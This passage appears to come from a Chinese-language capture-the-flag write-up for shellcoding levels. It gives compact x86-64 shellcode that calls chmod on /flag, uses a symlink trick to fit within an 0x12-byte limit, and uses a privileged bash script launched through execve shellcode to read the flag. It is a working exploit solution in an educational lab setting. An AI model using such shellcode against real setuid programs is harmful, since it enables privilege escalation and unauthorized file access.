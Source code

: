 ```assembly
/* chmod(file='/flag', mode=4) */
/* push b'/flag\\x00' */
mov rax, 0x101010101010101
push rax
mov rax, 0x101010101010101 ^ 0x67616c662f
xor [rsp], rax
mov rdi, rsp
push 4
pop rsi /* call chmod() */
push SYS_chmod /* 0x5a */
pop rax
syscall
```

#### Level 8

> Reading 0x12 bytes from stdin.
>
>
> Removing write permissions from first 4096 bytes of shellcode.

这一题的意思是说要求我们的shellcode要在0x12字节以内。和上一题一样可以用chmod来做。linux有一个特性，chmod在操作软链接时不会作用于软链接，而会直接作用于所指向的文件，这样就不用输入`/flag`这5个字节了，只需要使用任意自定义一个字节即可。

` ln -s /flag f`

```assembly
/* chmod(file='f', mode=4) */
/* push b'f\x00' */
push 0x66
mov rdi, rsp
push 4
pop rsi
/* call chmod() */
push SYS_chmod /* 0x5a */
pop rax
syscall
```

新建一个名为`a`的脚本

``` shell
#!/bin/bash -p
id
cat /flag
```

使用`shellcraft.amd64.linux.execve('a')`获取汇编代码

```assembly
/* execve(path='a', argv=0, envp=0) */
/* push b'a\\x00' */
push 0x61
mov rdi, rsp
xor edx, edx /* 0 */
xor esi, esi /* 0 or cdq*/ 
/* call execve() */
mov al,0x3b 
syscall
```
